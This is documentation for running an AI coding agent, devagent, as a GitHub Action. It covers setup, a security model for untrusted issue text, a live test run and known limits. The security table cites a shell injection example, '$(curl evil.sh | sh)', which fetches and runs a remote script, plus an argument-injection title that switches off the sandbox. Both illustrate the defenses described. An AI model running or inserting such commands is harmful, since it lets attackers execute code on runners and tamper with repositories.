

# devagent as a GitHub Action

Add the label **`devagent`** to an issue. devagent runs on a GitHub runner, plans and codes the change,
tests it, opens a PR that says `Closes #<issue>`, and comments the link on the issue. It **never merges**:
a person reviews and merges the PR.

## Setup (once per repository)

1. **Add the workflow.** Copy [examples/workflows/devagent.yml](../examples/workflows/devagent.yml) to
   `.github/workflows/devagent.yml` in the repository devagent should work on.
2. **Add a secret** (repo → Settings → Secrets and variables → Actions → New repository secret). Add one of:
   - `CLAUDE_CODE_OAUTH_TOKEN`: run `claude setup-token` on your computer and paste the token (uses your Claude subscription), or
   - `ANTHROPIC_API_KEY`: an API key from console.anthropic.com (pay per use).
3. **Allow Actions to open PRs:** Settings → Actions → General → Workflow permissions → tick
   **"Allow GitHub Actions to create and approve pull requests"**.
4. **Create the label:** Issues → Labels → New label → `devagent`.

## Security model

An issue can be written by anyone, so the workflow treats its text as **untrusted** and adds these
protections on top of devagent's own (sandbox, guard, secret scan; see [THREAT_MODEL.md](THREAT_MODEL.md)):

| Risk | Protection |
|---|---|
| A stranger starts paid runs or steers the agent | Only people who can add labels can trigger it, and the first step also checks that the labeler has **write** access |
| **Shell injection**: issue text like `$(curl evil.sh \| sh)` runs on the runner | Issue text is never placed inside a `run:` script. It goes through `with:` and environment variables. Tested in [tests/test_action.py](../tests/test_action.py) |
| **Argument injection**: an issue titled `--no-sandbox` turns a devagent option on | The task is always passed after `--`, so it can never be read as an option. Tested |
| Too much access for the token | Workflow permissions are limited to `contents`, `pull-requests` and `issues` |
| Runaway cost or a stuck run | `max-cost: 3` per run, `timeout-minutes: 45`, one run per issue at a time |
| Bad code merged automatically | devagent never merges. The PR needs human review |

Plans and agent notes are uploaded as a workflow artifact (`devagent-run`) for review.

## Verified live

2026-11-07, on a practice repository: the issue "Add an is_palindrome(text) function" was labelled
`devagent`, and the Action opened a PR with the function and 6 new tests that says `Closes #1`. It also
commented the link on the issue. The run took 1 min 25 s and cost $0.41 (API-equivalent; it ran on a Claude subscription token).

The first live attempt failed, which led to two fixes: the runner had no `pytest`, and the Debugger
spent three attempts trying to fix code that wasn't broken. devagent now stops early when the test
runner can't start.

## Limits

- **Test tools:** the project's tests run with devagent's own Python, which comes with `pytest`. If your
  tests need more packages, add them: `python-packages: "pytest requests"`. If the test runner itself
  can't start, devagent stops with "setup problem" instead of paying the Debugger to try to fix code
  that isn't broken.
- **Runs on macOS runners**, where devagent's sandboxes are verified. macOS minutes are free for public
  repositories. On private repositories they use your Actions minutes at 10× the Linux rate.
- **CI doesn't run automatically on the PR.** This is GitHub's rule for PRs opened with the default
  `GITHUB_TOKEN`. Close and reopen the PR to start CI, or use a GitHub App token instead.
- There's no plan approval gate in CI mode. Adding the label is the approval to start, and the PR review is the final check.
